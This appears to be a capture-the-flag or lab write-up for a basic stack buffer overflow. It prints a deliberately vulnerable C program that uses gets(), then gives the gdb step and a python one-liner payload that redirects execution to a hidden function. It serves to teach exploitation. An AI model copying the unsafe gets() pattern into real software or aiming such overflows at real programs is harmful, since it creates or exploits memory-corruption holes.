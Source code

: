 # Bof1
### Program code:
```
#include<stdio.h>
#include<unistd.h>
void secretFunc()
{
    printf("Congratulation!\n:");
}
int vuln(){
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char*argv[]){
    if (argv[1]==0){
        prinf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```
>Goal: print out the text "Congratulation!" using *secretFunc()*
### Solution:
1. Get the address of *secretFunc()*:
   - Load the program into *gdb* and type `disas secretFunc`
   - ![](./img/bof1/secretFunc.jpg)
   - The first line show us the address of *secretFunc()* which is `0x0804846b`
2. Do the attack:
   - To overflow the memory, we need to input *200 random bytes* + *4 bytes for the EBP of vuln()* + *4 bytes address of secretFunc()*
   - Quit *gdb* and type `echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") |./bof1.o`
   - Goal achieved

